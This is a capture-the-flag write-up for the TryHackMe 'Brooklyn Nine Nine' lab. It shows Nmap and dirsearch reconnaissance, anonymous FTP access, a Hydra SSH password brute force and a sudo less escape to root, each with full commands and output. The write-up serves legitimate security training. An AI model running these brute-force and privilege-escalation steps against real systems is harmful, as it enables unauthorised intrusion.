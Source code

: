 ```yaml
---
title: "THM - Brooklyn Nine Nine"
author: NiBi
lang: "en"
categories : ['Try Hack Me']
tags : ['CTF', 'THM','sudo','easy']
titlepage: true
toc: true
toc-own-page: true
---
```



# Information Gathering

## Nmap

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 11:38 EDT
Nmap scan report for 10.10.112.101
Host is up (0.079s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.80.139
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```

Here, we notice that ports **21**,**22**,**80** are open.

Thanks to Nmap, we find that port 22 with anonymous login is enabled.

## FTP Anonymous login

Let's connect anonymously to the server. Use "anonymous" as user and leave the password field blank.

```shell

Connected to 10.10.112.101.
220 (vsFTPd 3.0.3)
Name (10.10.112.101:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||59205|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

A "note_to_jake.txt" is here.

Inside we found :

```text
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Let's put aside the usernames "jake" and "amy".
Maybe we can bruteforce Jake's password later.

## Port 80

On the main page we just have a picture. We can go further with dirsearch, we may be lucky to find hidden directories.

```shell

 dirsearch -u http://10.10.112.101          

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                   
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/10.10.112.101/_22-05-31_11-56-16.txt

Error Log: /home/kali/.dirsearch/logs/errors-22-05-31_11-56-16.log

Target: http://10.10.112.101/
[11:57:00] 200 -  718B  - /index.html                                       
[11:57:22] 403 -  278B  - /server-status/                                   
[11:57:23] 403 -  278B  - /server-status          


```

Bad luck ! We do not find anything special.
We know that Jake has a weak password, maybe we can just try to bruteforce his ssh password.

## Is Jake password really weak ?

Let's use hydra to bruteforce jake's password.

```shell

$ hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.112.101 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-31 12:07:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.112.101:22/
[22][ssh] host: 10.10.112.101   login: jake   password: [REDACTED]
```

Done ! Jack has a really weak password...

# Privesc

## Moove to SSH & User flag (also root)

```shell

└─$ ssh jake@10.10.112.101    
The authenticity of host '10.10.112.101 (10.10.112.101)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:18: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.112.101' (ED25519) to the list of known hosts.
jake@10.10.112.101's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$

```

Connected !

The 4 first things to try for privilege escalation in my opinion:

* Sudo -l
* Crontab
* SUID
* Write access

The **sudo -l** output is pretty useful.

```shell
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

We can run **less** as any user without any password...

When i want to exploit binaries i moove to <https://gtfobins.github.io/gtfobins/less/>

Written in the Sudo section  :

```shell
sudo less /etc/profile
!/bin/sh
```

So we can open shell with less.
By executing these commands we get root and we can have flags:

```shell

jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cat /home/holt/user.txt && cat /root/root.txt
[REDACTED]
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [REDACTED]

Enjoy!!
```

## Conclusion

Very easy one but quite interesting :)
